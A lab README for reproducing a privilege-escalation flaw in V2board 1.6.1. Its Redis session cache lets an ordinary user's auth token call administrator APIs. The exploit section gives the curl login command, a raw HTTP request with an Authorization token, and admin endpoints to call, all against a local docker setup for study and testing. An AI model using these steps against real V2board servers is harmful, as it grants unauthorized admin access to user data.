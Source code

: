 # V2board 1.6.1 Privilege Escalation

[中文版本(Chinese version)](README.zh-cn.md)

V2board is a multiple proxy protocol manage panel application interface. In the version of 1.6.1, it is introduced a redis cache mechanism to save the user session.

Since there is no distinction between administrator and normal user in the cache layer, resulting in normal users being able to use their token to access the administrator interface.

References:

- <https://github.com/v2board/v2board/commit/5976bcc65a61f7942ed4074b9274236d9d55d5f0>

## Vulnerable Environment

Execute following command to start the V2board 1.6.1:

```
docker compose up -d
```

After the server is started, browse the `http://localhost:8080` to see the default login page of the V2board.

## Exploit

First of all, you have to register a normal user.

Then, replace the email and password with your own data and login:

```
curl -i -s -k -XPOST --data-binary "email=example%40example.com&password=a123123123" http://localhost:8080/api/v1/passport/auth/login
```

The server will response a "auth_data" to you:

![](1.png)

Copy it and end the following request with your "auth_data":

```
GET /api/v1/user/info HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.5249.62 Safari/537.36
Connection: close
Authorization: ZXhhbXBsZUBleGFtcGxlLmNvbTokMnkkMTAkMVJpUFplR2RnZlFPSVRyWEM4dW0udW5QZVZNTGs3RlFFbkFVVnBwbEhmTlMyczdQaEpTa3E=
Cache-Control: max-age=0


```

![](2.png)

This step is to let server save your authorization to Redis cache.

Finally, you are able to simply call all admin API with this authorization, for example `http://your-ip:8080/api/v1/admin/user/fetch`:

![](3.png)
